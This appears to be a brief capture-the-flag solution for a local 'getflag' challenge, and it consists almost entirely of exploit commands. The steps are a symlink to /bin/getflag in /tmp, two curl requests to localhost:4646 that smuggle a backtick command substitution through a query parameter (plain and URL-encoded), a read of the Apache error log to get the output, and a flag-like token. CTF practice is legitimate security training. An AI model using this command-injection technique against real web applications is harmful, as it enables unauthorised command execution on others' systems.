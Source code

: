 ln -s /bin/getflag /tmp/GETFLAG

curl 'localhost:4646?x=`/*/GETFLAG>&2`'


curl 'localhost:4646?x=`%2F%2A%2FGETFLAG%3E%262`'

cat /var/log/apache2/error.log 

g1qKMiRpXf53AWhDaU7FEkczr